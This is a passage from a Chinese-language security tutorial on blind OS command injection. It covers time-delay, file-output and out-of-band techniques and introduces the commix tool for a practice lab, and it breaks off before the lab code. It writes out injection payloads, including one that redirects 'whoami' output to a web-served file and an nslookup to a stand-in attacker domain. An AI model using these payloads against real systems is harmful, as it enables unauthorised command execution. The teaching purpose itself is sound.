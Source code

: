 在弄清楚一句话木马和命令注入的区别后，我们对命令注入基础知识的学习就完成了。下面让我们开始进阶学习，了解在盲注的情况下，命令注入要如何完成。

### 命令盲注

在SQL注入中，我们学习过盲注的概念。其实在命令注入中，也有盲注的情况。下面我们来看看，在命令注入中是如何实现盲注的。

盲注意味着网络应用在`HTTP`响应中不返回我们注入的命令的输出结果。但是我们还是可以通过不同的方法来利用这个注入漏洞。下面我们来看三种解决盲注的方案，它们是时延注入、文件输出以及带外注入。

首先我们来看时延注入，这可以帮助我们确定，注入漏洞是否存在。在使用时延注入时，如果我们观察到应用是在我们设置的时延之后进行响应的，那么，尽管我们无法获得注入命令的输出值，也可以确定注入漏洞确实存在。

接下来是文件输出，通过这种方式，我们在`HTTP`响应中无法获取到的注入命令输出结果，可以通过其他方式获得。例如，我们可以将输出写入一个允许访问的静态资源下的文件里，写入之后访问该文件，就可以获得注入命令的输出值了。下面我们一起看一个示例来加深理解。

```bash
#应用允许访问的静态资源目录为 ‘/var/www/static/whoami.txt’。
#我们可以构造恶意命令为：
& whoami > /var/www/static/whoami.txt &
#之后我们就可以访问 'https://vulnerable-website.com/whoami.txt'来访问该文件获取我们注入命令的输出信息。
```

最后，我们还可以通过带外注入的方法来确认命令注入是否成功。

```plain
#假设攻击者有一个’kgji2ohoyw.web-attacker.com‘网址。
#注入的命令如下
& nslookup kgji2ohoyw.web-attacker.com &
```

这个注入命令会使用`nslookup`命令，对指定的域名进行`DNS`查询。攻击者可以观察到指定查找的发生过程，这样就可以判断出命令注入是否成功。

## 实战部分

下面我们一起来进行一个案例实战，该靶场已经搭建于谜团中，大家可以访问极客时间课程——命令注入靶场进行实战测试。在这次的案例实战中，我们用到了一个工具`commix`，它的名字的含义为`command injection exploiter`。从它的名字我们就能知道，这是一个命令注入工具。事实上它是一款开源工具，用于测试网络应用是否存在基于命令注入的漏洞。这款工具是自动检测的，我们不需要太多的手动操作。当它检测出注入的存在时，可以返回一个服务器上的`shell`。

这款工具是用Python语言编写的，所以我们可以在Linux、Mac以及Windows系统中运行它。我们可以在“[GitHub - commixproject/commix: Automated All-in-One OS Command Injection Exploitation Tool.](https://github.com/commixproject/commix)”这个页面获取该软件。下载完之后，我们可以用`python commix.py -h`，获得该软件的用法。因为该工具参数太多，所以这里仅列举出常用的选项和参数。

```plain
Target:
#该选项必须被配置，用来定义目标的地址。
-u  URL            目标地址
Request:
#这些选项可以被用来明确如何链接到目标地址。
-d  DATA           通过POST方式上传的数据信息。
--host=HOST        设置HTTP主机信息。
--cookie=COOKIE    设置HTTP的cookie信息。
--user-agent=AGENT 设置HTTP的User-Agent信息。
Detection:
#这些选项用来设置检测方法
--level=LEVEL      设置检测的等级（1-3），默认为1。
```

这里靶场的代码为：
